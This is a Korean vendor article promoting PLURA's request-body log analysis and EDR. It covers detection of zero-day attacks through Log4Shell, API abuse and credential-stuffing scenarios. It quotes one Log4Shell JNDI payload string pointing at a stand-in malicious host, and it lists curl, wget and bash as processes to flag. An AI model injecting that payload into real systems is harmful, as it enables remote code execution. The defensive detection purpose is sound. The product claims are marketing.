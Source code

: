 ## 제로 데이(Zero-Day) 공격 탐지 및 대응 – 사례 및 시나리오

## 🔍 제로 데이 공격이란?  
**제로 데이 공격**(Zero-Day Attack)은 보안 취약점이 발견되었지만, 아직 공식적인 패치나 대응 방법이 제공되지 않은 상태에서 공격자가 이를 악용하는 사이버 공격입니다.  
기존 보안 시스템(SIEM, WAF, NDR 등)은 **이미 알려진 공격 패턴**(시그니처, 룰 기반 탐지)에 의존하기 때문에 제로 데이 공격을 탐지하기 어렵습니다.  

PLURA의 **웹 요청 본문 로그 분석 + EDR**을 활용하면, 제로 데이 공격을 보다 효과적으로 탐지하고 대응할 수 있습니다.  

---

## 📌 **제로 데이 공격 사례 및 탐지 시나리오**  

### **📌 사례 1: Log4j(Log4Shell) 취약점 공격 탐지**  

#### **📌 공격 개요**  
2021년 12월, **Log4j**(Log4Shell) 취약점(CVE-2021-44228)이 발견되었습니다.  
- 공격자는 웹 애플리케이션의 **입력 필드**(검색창, 로그인 폼 등)에 **특정 문자열**(JNDI 요청 포함)을 삽입하여 원격 코드 실행(RCE, Remote Code Execution)을 수행할 수 있었습니다.  
- WAF 및 기존 보안 솔루션이 이 패턴을 알기 전까지는, 탐지가 어려운 전형적인 제로 데이 공격이었습니다.  

#### **📌 Log4j 공격 흐름 (Mermaid Flowchart)**  
```mermaid
graph TD
    A[공격자] -->|JNDI Payload 포함 요청| B[취약한 웹 애플리케이션]
    B -->|로그 저장| C[Log4j 취약점 존재]
    C -->|JNDI Lookup 수행| D[외부 악성 서버 접속]
    D -->|악성 코드 전송| E[웹 서버에서 RCE 발생]
    E -->|백도어 설치| F[공격 성공]

    %% PLURA 탐지 및 대응
    B -->|웹 요청 본문 분석| X[PLURA 탐지 시스템]
    X -->|JNDI 패턴 탐지| Y[공격 차단]
    E -->|프로세스 모니터링| Z[EDR 탐지 및 실행 차단]
```

#### **📌 PLURA 웹 요청 본문 분석 + EDR 탐지 방법**  
✅ **1) 웹 요청 본문 분석을 통해 악성 패턴 탐지**  
- PLURA는 **웹 요청 본문을 실시간 분석**하여 `jndi:ldap://malicious.com/exploit`와 같은 의심스러운 패턴을 탐지 가능.  
- 검색창, 유저 입력값, 헤더, API 요청 본문에서 **비정상적인 LDAP, RMI 호출 탐지 가능**.  

✅ **2) EDR 연계를 통한 공격 실행 탐지 및 차단**  
- 공격이 성공하여 원격 코드 실행(RCE)이 발생할 경우, PLURA EDR이 **커널 레벨에서 새로운 프로세스 생성 이벤트**(Fork, Execve) 탐지.  
- `curl`, `wget`, `bash` 등의 의심스러운 프로세스 실행 감지 후 자동 차단 가능.  

---

### **📌 사례 2: API 취약점 악용 (Zero-Day API Attack)**  

#### **📌 API 공격 흐름 (Mermaid Flowchart)**  
```mermaid
graph TD
    A[공격자] -->|API Brute Force 공격| B[취약한 API 서버]
    B -->|다른 사용자 계정으로 정보 요청| C[권한 검증 미흡]
    C -->|계정 데이터 유출| D[공격 성공]

    %% PLURA 탐지 및 대응
    B -->|웹 요청 본문 분석| X[PLURA 탐지 시스템]
    X -->|비정상적인 API 호출 패턴 탐지| Y[공격 차단]
    B -->|API 호출 횟수 분석| Z[비정상적 호출 탐지 및 차단]
```

✅ **1) API 요청 본문을 분석하여 비정상적인 요청 패턴 탐지**  
✅ **2) 웹 애플리케이션 로그와 사용자 행동 데이터를 상관 분석**  
✅ **3) EDR을 활용한 추가 보안 탐지**  

---

### **📌 사례 3: 크리덴셜 스터핑 공격 탐지**  

#### 📌 Credential Stuffing 공격 흐름 (Mermaid Flowchart)  
```mermaid
graph TD
    A[공격자] -->|유출된 계정 정보로 로그인 시도| B[로그인 서버]
    B -->|반복적인 로그인 실패| C[Brute Force 공격 감지 안됨]
    C -->|일부 계정 로그인 성공| D[계정 탈취]
    D -->|비밀번호 변경, 데이터 탈취| E[공격 성공]

    %% PLURA 탐지 및 대응
    B -->|웹 요청 본문 분석| X[PLURA 탐지 시스템]
    X -->|반복된 로그인 시도 탐지| Y[공격 차단]
    D -->|계정 사용 행위 분석| Z[비정상적 활동 감지 및 추가 인증 요청]
```

✅ **1) 로그인 요청 패턴을 실시간 분석하여 크리덴셜 스터핑 공격 탐지**  
✅ **2) AI 기반 이상 탐지 적용**  
✅ **3) 사용자 행동 분석 및 MFA 강제 적용 가능**  

---

### **📌 결론: PLURA 웹 요청 본문 분석 + EDR을 통한 제로 데이 탐지 및 대응**  

✅ **기존 보안 시스템(WAF, SIEM, NDR, TI)은 알려진 공격 패턴만 탐지 가능하므로, 제로 데이 공격을 효과적으로 탐지하지 못함.**  
✅ **PLURA의 웹 요청 본문 분석은 새로운 공격 패턴을 실시간으로 분석하여, 알려지지 않은 제로 데이 공격 탐지 가능.**  
✅ **EDR 연계를 통해 커널 레벨에서 악성 프로세스 실행, 웹쉘 설치, 파일 변조(FIM) 등을 탐지하여 공격자의 추가 행위를 차단.**  
✅ **공격 흐름을 상관 분석하고 이상 행위를 탐지하여, Zero-Day 공격이 실시간으로 탐지 및 차단될 수 있도록 지원.**  

🔹 **PLURA-XDR은 웹 요청 본문 분석과 EDR을 결합하여 기존 보안 솔루션이 탐지하지 못하는 제로 데이 공격까지 대응할 수 있는 차세대 보안 플랫폼입니다.** 🚀  
```

